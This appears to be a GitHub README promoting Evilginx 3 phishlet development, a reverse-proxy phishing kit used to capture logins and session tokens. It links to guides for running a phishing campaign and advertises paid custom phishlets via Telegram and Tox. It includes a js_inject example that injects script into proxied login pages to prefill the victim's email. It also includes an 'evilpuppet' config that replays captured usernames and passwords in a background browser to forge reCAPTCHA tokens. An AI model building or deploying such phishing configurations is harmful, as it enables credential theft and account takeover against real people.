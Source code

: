 # Evilginx 3 PHISHLET
<img align="left" src="https://github.com/user-attachments/assets/9655710b-1b9e-4ed7-894a-b5109aecff6c" width="450" height="550">

This repository was created solely to assist in the creation of PHISHLETS / Modification of the Evilginx software itself / In solving any problems associated with this software and PHISHLETS.

__Preface:__ At the moment, there are a very large number of scammers who sell public, raw goods, people who do not understand at all how Reverse Proxy works. Watching these people on hacker sites, telegram channels and on the Internet in general becomes funny. There is nothing complicated in creating a template for EvilGinx; the entire manual is described by the founder himself 
[kgretzky](https://github.com/kgretzky) "Owner") __[__thanks to him for this creation__]__ It is for this reason that we decided to make a small laboratory for mutual assistance in this matter.

### #Installation Steps​
Learn how to install Evilginx locally or deploy it on a remote server [Deployment](https://help.evilginx.com/docs/category/deployment) / Learn how to set up Evilginx and run your first phishing campaign [Quick Start](https://help.evilginx.com/docs/getting-started/quick-start) / Learn how to use Evilginx [Guides](https://help.evilginx.com/docs/category/guides) __[ CONFIG X PHISHLETS X LURES X REDIRECTORS X SESSIONS X PROXY X BLACKLIST ]__

### #Phishlet Format (v3.0.0-vX.X.X)

Phishlets are configuration files in YAML format. If you need to get familiar with YAML, first, you can find some good overview here: [YAML Syntax](https://docs.ansible.com/ansible/latest/reference_appendices/YAMLSyntax.html) 
Phishlet Format [Create](https://help.evilginx.com/docs/phishlet-format) 

### #js_inject
This section defines all Javascript scripts that you want to inject into proxied pages. Every script can be customized with {var_name} variable parameters, which later can be set to different values in each created lure.
```
js_inject:
  - trigger_domains: ["www.domain.com"]
    trigger_paths: ["/uas/login"]
    trigger_params: ["email"]
    script: |
      function lp(){
        var email = document.querySelector("#username");
        var password = document.querySelector("#password");
        if (email != null && password != null) {
          email.value = "{email}";
          password.focus();
          return;
        }
        setTimeout(function(){lp();}, 100);
      }
      setTimeout(function(){lp();}, 100);
```
>### info
This part applies only to Evilginx Pro users who have access to Evilpuppet module.

Interactive background browser sessions, spawned on-demand, with sole purpose of forging secret tokens to be used within the proxied Evilginx session.

```
evilpuppet:
  triggers:
    - domains: ['www.domain.com']
      paths: ['/sessions']
      token: 'recaptcha_token'
      open_url: 'https://www.domain.com/signin'
      actions:
        - selector: '#email'
          value: '{username}'
          enter: false
          click: false
          post_wait: 0
        - selector: '#password'
          value: '{password}'
          enter: false
          click: false
          post_wait: 0
        - selector: '#stay_signed_in'
          click: true
          post_wait: 0
        - selector: '#signin_button'
          click: true
          post_wait: 0
  interceptors:
    - token: 'recaptcha_token'
      url_re: '/sessions'
      post_re: 'recaptcha_token=([^&]*)'
      abort: true
```

Evilginx 3 [PHISHLET] by Evi1Grey5 [CUSTOM CREATION / FREE / DEVELOPMENT]
<img align="left" src="https://injectexp.dev/assets/img/logo/logo1.png">

Contacts:
injectexp.dev / 
pro.injectexp.dev / 
Telegram: @Evi1Grey5 [support]
Tox: 340EF1DCEEC5B395B9B45963F945C00238ADDEAC87C117F64F46206911474C61981D96420B72
